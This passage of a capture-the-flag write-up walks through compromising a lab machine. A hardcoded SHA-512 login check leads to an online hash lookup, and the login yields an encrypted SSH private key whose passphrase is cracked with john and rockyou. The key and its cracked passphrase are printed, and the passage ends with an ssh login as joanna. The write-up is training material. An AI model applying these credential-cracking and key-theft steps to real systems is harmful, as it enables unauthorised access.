 ```
if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
  $_SESSION['username'] = 'jimmy';
  header("Location: /main.php");
}
```
Now we can try to copy/paste the hash in google and, [this site](https://md5hashing.net/hash/sha512/00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1) shows that the sha512 hash corresponds to password 'Revealed'.  
Once we got the hash value, we can navigate to 127.0.0.1:8081 and insert the credentials jimmy:Revealed, as we log in we get an ssh private key possibly related to user joanna.  
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
As we can see in the key header, the key is encrypted, so let's use john to crack it.  
```
[root@kali keys ]$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_joanna_enc.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa_joanna_enc)     
1g 0:00:00:03 DONE (2022-04-02 19:22) 0.2994g/s 2866Kp/s 2866Kc/s 2866KC/s bloodninjas..bloodmore23
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now that we have the key and the password for the key, we can login as user joanna and grab user.txt flag.  
```
[root@kali keys ]$ ssh -l joanna $TARGET -i id_rsa_joanna_enc
Enter passphrase for key 'id_rsa_joanna_enc':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
```